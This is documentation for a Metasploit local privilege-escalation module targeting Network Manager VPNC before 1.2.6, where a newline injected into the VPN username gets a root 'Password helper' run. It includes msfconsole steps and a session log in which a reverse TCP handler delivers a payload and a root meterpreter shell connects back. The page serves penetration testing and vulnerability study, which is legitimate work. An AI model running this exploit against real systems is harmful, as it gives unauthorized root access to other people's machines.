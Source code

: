 ## Description

  This module exploits an injection vulnerability in the Network Manager
  VPNC plugin to gain *root* privileges.

  This module uses a new line injection vulnerability in the configured
  username for a VPN network connection to inject a `Password helper`
  configuration directive into the connection configuration.

  The specified helper is executed by Network Manager as root when the
  connection is started.

  Network Manager VPNC versions prior to 1.2.6 are vulnerable.


## Vulnerable Application

  This module has been tested successfully with VPNC versions:

  * 1.2.4-4 on Debian 9.0.0 (x64); and
  * 1.1.93-1 on Ubuntu Linux 16.04.4 (x64).


## Installation

  The following installation instructions are for Ubuntu 16.04.04.

  ```sh
  # List available network-manager-vpnc packages
  apt-cache showpkg network-manager-vpnc

  # Install a vulnerable package
  apt-get install network-manager-vpnc=1.1.93-1
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/network_manager_vpnc_username_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf5 > use exploit/linux/local/network_manager_vpnc_username_priv_esc 
  msf5 exploit(linux/local/network_manager_vpnc_username_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/network_manager_vpnc_username_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/network_manager_vpnc_username_priv_esc) > set lhost 172.16.191.188 
  lhost => 172.16.191.188
  msf5 exploit(linux/local/network_manager_vpnc_username_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] nmcli utility is installed
  [*] Adding VPN connection...
  [*] Uploading payload...
  [*] Writing '/tmp/.4FCA0Pp4tw' (237 bytes) ...
  [*] Starting VPN connection...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (861480 bytes) to 172.16.191.201
  [+] Deleted /tmp/.4FCA0Pp4tw
  [*] Removing VPN connection...

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.201
  OS           : Ubuntu 16.04 (Linux 4.13.0-41-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

